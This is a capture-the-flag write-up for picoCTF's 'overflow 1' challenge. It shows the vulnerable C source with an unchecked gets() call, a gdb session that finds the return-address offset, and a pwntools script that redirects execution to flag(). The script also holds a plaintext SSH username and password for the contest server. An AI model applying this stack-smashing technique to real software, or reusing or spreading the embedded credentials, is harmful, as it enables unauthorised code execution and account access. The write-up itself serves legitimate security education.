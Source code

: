 # Problem
You beat the first overflow challenge. Now overflow the buffer and change the return address to the flag function in this [program](https://2019shell1.picoctf.com/static/f91a5df8cf50ebba23f22d7c735b2a21/vuln)? You can find it in /problems/overflow-1_2_305519bf80dcdebd46c8950854760999 on the shell server. [Source](https://2019shell1.picoctf.com/static/f91a5df8cf50ebba23f22d7c735b2a21/vuln.c).

## Hints:
Take control that return address

Make sure your address is in Little Endian.

## Solution:

Lets download the files:
```bash
wget https://2019shell1.picoctf.com/static/f91a5df8cf50ebba23f22d7c735b2a21/vuln
wget https://2019shell1.picoctf.com/static/f91a5df8cf50ebba23f22d7c735b2a21/vuln.c
```

First, we investigate the source
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include "asm.h"

#define BUFFSIZE 64
#define FLAGSIZE 64

void flag() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("Flag File is Missing. please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  printf(buf);
}

void vuln(){
  char buf[BUFFSIZE];
  gets(buf);

  printf("Woah, were jumping to 0x%x !\n", get_return_address());
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  puts("Give me a string and lets see what happens: ");
  vuln();
  return 0;
}
```

The call to ```gets()``` in ```vuln()``` is unsafe, there is no limit checking.

We can override the return address and jump to ```flag()```.

First we need to check the offset overriding the return address. We can use this gdbinit script
```
run < <(echo AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZ)
```

Lets debug:
```bash
gdb -x ./gdbinit ./vuln

Stopped reason: SIGSEGV
0x54545454 in ?? ()
```

We know that ```TTTT``` overrides the return address.

Now lets write a simple python script:
```python
#!/usr/bin/env python

from pwn import *


debug = 0

user = 'RoeeSefi'
pw = 'UTTE9CQN2idX28W'

if debug:
  p = process('./vuln')
else:
  s = ssh(host = '2019shell1.picoctf.com', user=user, password=pw)
  s.set_working_directory('/problems/overflow-1_2_305519bf80dcdebd46c8950854760999')
  p = s.process('./vuln')

binary = ELF('./vuln')

print p.recvuntil('happens:')
p.sendline('AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSS' + p32(binary.symbols['flag']))
print p.recvall()
```

Flag: picoCTF{n0w_w3r3_ChaNg1ng_r3tURn5a32b9368}